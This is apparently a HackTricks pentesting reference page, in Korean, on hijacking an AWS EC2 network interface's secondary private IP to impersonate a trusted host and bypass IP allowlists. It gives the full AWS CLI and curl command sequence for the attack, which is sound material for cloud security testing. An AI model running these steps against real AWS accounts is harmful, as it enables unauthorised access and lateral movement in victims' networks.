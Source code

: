 # AWS – EC2 ENI Secondary Private IP Hijack (Trust/Allowlist Bypass)

{{#include ../../../../banners/hacktricks-training.md}}

악용 `ec2:UnassignPrivateIpAddresses` 및 `ec2:AssignPrivateIpAddresses`로 victim ENI의 secondary private IP를 탈취하여 동일한 subnet/AZ의 attacker ENI로 옮깁니다. 많은 내부 서비스와 security groups는 특정 private IP로 접근을 제어합니다. 해당 secondary address를 옮기면, 공격자는 L3에서 신뢰된 호스트로 가장하여 allowlisted 서비스에 접근할 수 있습니다.

Prereqs:
- 권한: victim ENI ARN에 대한 `ec2:DescribeNetworkInterfaces`, `ec2:UnassignPrivateIpAddresses`, 그리고 attacker ENI ARN에 대한 `ec2:AssignPrivateIpAddresses`.
- 두 ENI는 동일한 subnet/AZ에 있어야 합니다. 대상 주소는 secondary IP여야 합니다 (primary는 할당 해제할 수 없습니다).

Variables:
- REGION=us-east-1
- VICTIM_ENI=<eni-xxxxxxxx>
- ATTACKER_ENI=<eni-yyyyyyyy>
- PROTECTED_SG=<sg-protected>   # SG on a target service that allows only $HIJACK_IP
- PROTECTED_HOST=<private-dns-or-ip-of-protected-service>

Steps:
1) victim ENI에서 secondary IP를 선택합니다
```bash
aws ec2 describe-network-interfaces --network-interface-ids $VICTIM_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[?Primary==`false`].PrivateIpAddress --output text | head -n1 | tee HIJACK_IP
export HIJACK_IP=$(cat HIJACK_IP)
```
2) 보호된 호스트가 해당 IP만 허용하도록 확인하세요 (멱등). 대신 SG-to-SG 규칙을 사용하는 경우에는 건너뛰세요.
```bash
aws ec2 authorize-security-group-ingress --group-id $PROTECTED_SG --protocol tcp --port 80   --cidr "$HIJACK_IP/32" --region $REGION || true
```
3) 기준: attacker instance에서 PROTECTED_HOST로의 request는 spoofed source 없이는 실패해야 한다 (예: SSM/SSH를 통해).
```bash
curl -sS --max-time 3 http://$PROTECTED_HOST || true
```
4) victim ENI에서 secondary IP 할당을 해제합니다
```bash
aws ec2 unassign-private-ip-addresses --network-interface-id $VICTIM_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
5) 공격자 ENI에 동일한 IP를 할당합니다 (AWS CLI v1에서는 `--allow-reassignment`를 추가)
```bash
aws ec2 assign-private-ip-addresses --network-interface-id $ATTACKER_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
6) 소유권 이전 확인
```bash
aws ec2 describe-network-interfaces --network-interface-ids $ATTACKER_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[].PrivateIpAddress --output text | grep -w $HIJACK_IP
```
7) 공격자 인스턴스에서, hijacked IP에 source-bind하여 보호된 호스트에 접근한다(해당 IP가 OS에 구성되어 있는지 확인; 구성되어 있지 않다면 `ip addr add $HIJACK_IP/<mask> dev eth0`로 추가).
```bash
curl --interface $HIJACK_IP -sS http://$PROTECTED_HOST -o /tmp/poc.out && head -c 80 /tmp/poc.out
```
## 영향
- 같은 subnet/AZ 내에서 ENIs 간에 secondary private IPs를 이동시켜 VPC 내의 IP allowlists를 우회하고 신뢰된 호스트로 가장할 수 있습니다.
- 특정 source IPs로 액세스를 제한하는 내부 서비스에 접근하여 lateral movement 및 data access를 가능하게 합니다.
{{#include ../../../../banners/hacktricks-training.md}}
